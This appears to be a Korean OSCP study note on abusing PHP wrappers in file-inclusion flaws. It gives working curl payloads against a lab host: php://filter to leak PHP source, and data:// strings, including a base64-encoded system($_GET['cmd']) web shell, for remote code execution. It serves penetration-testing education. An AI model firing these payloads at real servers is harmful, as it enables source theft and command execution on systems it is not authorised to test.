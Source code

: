 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

# 9.2.2. PHP Wrappers
## 1. PHP 래퍼(Wrappers)란?
1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.

### 1. `php://filter` 래퍼 활용
1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
### 2. 예제
1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
```shell
 curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
3. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)
```shell
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

### 1. `data://` 래퍼 활용
1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.

### 2. 예제: `data://`로 코드 실행
1. URL-인코딩된 PHP 코드 포함 및 실행
```shell
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
2. Base64 인코딩을 통한 실행
```shell
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```


## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론
- PHP Wrappers는 강력한 기능을 제공하지만, 잘못된 설정이나 취약점을 통해 공격자가 시스템을 악용할 수 있습니다.
- 이러한 취약점은 웹 애플리케이션의 보안성을 강화하고, 서버 설정을 적절히 구성함으로써 방지할 수 있습니다.